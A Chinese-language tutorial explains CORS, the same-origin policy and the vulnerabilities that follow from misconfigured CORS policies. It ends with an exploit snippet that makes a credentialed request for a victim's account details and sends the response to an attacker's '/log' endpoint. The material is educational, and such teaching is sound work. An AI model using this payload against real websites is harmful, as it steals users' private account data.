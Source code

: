 # 跨域资源共享 (CORS)

## 什么是CORS（跨域资源共享）？

跨域资源共享 (CORS) 是一种浏览器机制，允许对位于给定域之外的资源进行受控访问。它扩展并增加了同源策略 ( SOP的灵活性。但是，如果网站的 CORS 策略配置和实施不当，它也可能引发跨域攻击。CORS 不能防止跨域攻击，例如跨站点请求伪造(CSRF)。

## 同源政策

同源策略是一种限制性的跨域规范，它限制了网站与源域之外的资源进行交互的能力。同源策略是多年前定义的，以应对潜在的恶意跨域交互，例如一个网站从另一个网站窃取私人数据。它通常允许域向其他域发出请求，但不允许访问响应。

## 放宽同源政策

同源策略非常严格，因此已经设计了各种方法来规避这些限制。许多网站以需要完全跨域访问的方式与子域或第三方网站进行交互。使用跨域资源共享 (CORS) 可以控制放宽同源策略。

跨域资源共享协议使用一套 HTTP 标头，这些标头定义了受信任的 Web 来源和相关属性，例如是否允许经过身份验证的访问。这些组合在浏览器和它试图访问的跨域网站之间的标题交换中。

## 由 CORS 配置问题引起的漏洞

许多现代网站使用 CORS 来允许来自子域和受信任的第三方的访问。他们的 CORS 实现可能包含错误或过于宽松以确保一切正常，这可能导致可利用的漏洞。

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','$url/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

